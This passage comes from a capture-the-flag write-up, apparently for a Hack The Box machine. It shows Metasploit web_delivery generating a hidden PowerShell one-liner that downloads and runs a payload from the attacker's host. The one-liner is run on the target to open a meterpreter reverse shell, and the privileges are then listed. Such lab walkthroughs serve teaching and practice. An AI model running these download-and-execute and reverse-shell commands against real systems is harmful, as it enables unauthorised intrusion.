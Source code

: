 For the further enumeration, gain meterpreter shell with Metasploit.<br>
To achieve that purpose, we need to use Metasploit module "web_delivery" to generate a command. 
{% highlight shell %}
msf5 > use exploit/multi/script/web_delivery 

msf5 exploit(multi/script/web_delivery) > set target 2
target => 2

msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf5 exploit(multi/script/web_delivery) > set lhost 10.10.14.19
lhost => 10.10.14.19

msf5 exploit(multi/script/web_delivery) > set srvhost 10.10.14.19
srvhost => 10.10.14.19

msf5 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.19:4444
[*] Using URL: http://10.10.14.19:8080/3FtokPLmY
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $q=new-object net.webclient;$q.proxy=[Net.WebRequest]::GetSystemWebProxy();$q.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $q.downloadstring('http://10.10.14.19:8080/3FtokPLmY');
{% endhighlight %}

Now we had a command to run meterpreter shell.<br>
Then, run the obtained command on the current reverse shell.
{% highlight shell %}
C:\Users\kohsuke\Desktop>powershell.exe -nop -w hidden -c $q=new-object net.webclient;$q.proxy=[Net.WebRequest]::GetSystemWebProxy();$q.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $q.downloadstring('http://10.10.14.19:8080/3FtokPLmY');
{% endhighlight %}

In the msfconsole window, we can confirm that we had new meterpreter session.
{% highlight shell %}
msf5 exploit(multi/script/web_delivery) > [*] 10.10.10.63      web_delivery - Delivering Payload (1941) bytes
[*] Sending stage (179779 bytes) to 10.10.10.63
[*] Meterpreter session 1 opened (10.10.14.19:4444 -> 10.10.10.63:49678) at 2019-09-15 13:14:31 +0300
{% endhighlight %}

With following command, we can open the session.
{% highlight shell %}
msf5 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
{% endhighlight %}

By "getprivs" command, we can achieve privilege information.<br>
As we can see, we have "SeImpersonatePrivilege".
{% highlight shell %}
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseWorkingSetPrivilege